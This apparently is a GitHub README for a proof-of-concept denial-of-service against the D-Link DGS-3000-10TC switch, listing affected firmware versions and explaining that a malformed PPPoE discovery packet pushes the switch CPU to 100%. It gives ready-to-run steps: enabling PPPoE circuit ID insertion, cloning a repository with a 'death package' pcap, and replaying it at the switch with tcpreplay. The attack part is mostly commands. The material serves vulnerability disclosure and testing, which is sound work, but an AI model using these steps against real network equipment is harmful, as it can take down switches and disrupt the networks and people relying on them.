 # kill-dlink-DGS-3000-10TC-

Initial data:

DGS-3000-10TC
Firmware: Build 4.18.B007
Boot PROM Version          : Build 2.00.001
Firmware Version           : Build 2.05.B009
Hardware Version           : A2
(or Build 2.05.B008)

When a broken pppoed packet comes to the switch - cpu 100% 

1. Enable the function on the switch. The goal is for the switch processor to accept pppoed.
    globally:
	config pppoe circuit_id_insertion state enable
    and on any port
	config pppoe circuit_id_insertion ports 1 state enable

1. Install tcpreplay 
    ( on debian - apt install tcpreplay)

2. Get a death package
    git clone https://github.com/MakselPr/kill-dlink-DGS-3000-10TC.git

3. Run the command
     cd kill-dlink-DGS-3000-10TC
     tcpreplay  -i eth1 death_package.pcap
	where eth1 this is the network card connected to the switch


Thank you.